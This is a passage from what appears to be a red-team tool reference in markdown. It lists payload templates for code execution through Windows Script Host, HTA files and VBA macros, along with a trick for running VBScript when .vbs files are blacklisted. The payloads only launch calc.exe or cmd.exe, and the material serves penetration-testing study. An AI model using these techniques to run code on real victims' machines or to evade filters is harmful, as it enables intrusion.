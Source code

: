 ![image](https://user-images.githubusercontent.com/100603074/217653886-09bf9eba-a117-47b9-99b4-12fb2d73ef44.png)

_Image used from https://pentestit.com/wordsteal-steal-ntlm-hashes-remotely/_

### [🔙](#tool-list)WSH

**Creating payload:**

```vbs
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

**Execute:**

```bash
wscript payload.vbs
cscript.exe payload.vbs
wscript /e:VBScript payload.txt //If .vbs files are blacklisted
```

### [🔙](#tool-list)HTA

**Creating payload:**

```html
<html>
  <body>
    <script>
      var c = "cmd.exe";
      new ActiveXObject("WScript.Shell").Run(c);
    </script>
  </body>
</html>
```

**Execute:** Run file

### [🔙](#tool-list)VBA

**Creating payload:**

```python
Sub calc()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

**Execute:** Set function to Auto_Open() in macro enabled document

# Initial Access

### [🔙](#tool-list)[Bash Bunny](https://shop.hak5.org/products/bash-bunny)
